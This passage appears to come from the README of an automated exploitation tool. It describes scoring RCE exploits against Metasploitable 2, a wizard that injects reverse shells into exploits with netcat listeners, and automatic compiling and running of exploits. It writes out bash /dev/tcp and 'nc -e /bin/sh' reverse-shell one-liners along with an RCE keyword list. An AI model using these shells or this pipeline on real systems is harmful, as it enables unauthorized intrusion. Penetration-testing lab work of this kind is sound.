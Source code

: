 #### 4. RCE Detection & Smart Filtering
**Status: Pretty good at finding the good stuff**
- Automatically finds Remote Code Execution exploits from the noise
- Scores exploits 20-100 based on how likely they are to work
- Skips the garbage (DoS, XSS, proof-of-concepts that don't work)
- Found 50+ actual RCE exploits out of 150+ total for Metasploitable 2

**What RCE patterns we look for:**
```python
# Stuff that usually means "you can run commands on this box"
'remote code execution', 'command execution', 'buffer overflow',
'backdoor', 'reverse shell', 'arbitrary code', 'memory corruption'

# How we score them:
CRITICAL_RCE (100 points) - Easy scripts (.py, .sh, .pl) that we can modify easily
RCE (90 points)          - C programs that need compilation but still RCE
INFO_DISCLOSURE (60)     - Info leaks (useful but not shells)
LOW_VALUE (20)          - DoS and other junk we usually skip
```

#### 5. Interactive Payload Wizard
**Status:  Works but the shells are kind of complex**
- Asks you for LHOST/LPORT and injects reverse shells into exploits
- Supports Python, C, Perl, Ruby, Bash exploits
- Starts netcat listeners automatically
- **Problem**: The payloads are too complex and don't always work properly
- **TODO**: Need to write simpler FIFO pipe shells that actually work

**Payload types we have:**
1. **Bash**: `bash -i >& /dev/tcp/LHOST/LPORT 0>&1`
2. **Python**: Socket programming stuff (complex)
3. **Netcat**: `nc LHOST LPORT -e /bin/sh`
4. **Perl**: Socket-based (also complex)

#### 6. Exploit Execution Engine
**Status:  Runs exploits pretty good**
- Skips the broken stuff automatically (PoCs, DoS, client-side attacks)
- Runs .py, .c, .pl, .sh, .rb files
- Compiles C exploits with gcc automatically
- Tries different parameter combinations if the first one fails
- Shows you the actual exploit output (finally!)
- Tracks which ones actually worked

---

#### File types we can run:
```
.py files   → python3 (just runs them directly)
.c files    → gcc compilation then run the binary
.pl files   → perl interpreter
.rb files   → ruby (for Metasploit modules)
.sh files   → bash/sh scripts

# How we try to run them:
[target, port]       # Like: 192.168.1.100 22
[target]             # Just: 192.168.1.100  
[target:port]        # Combined: 192.168.1.100:22
```

---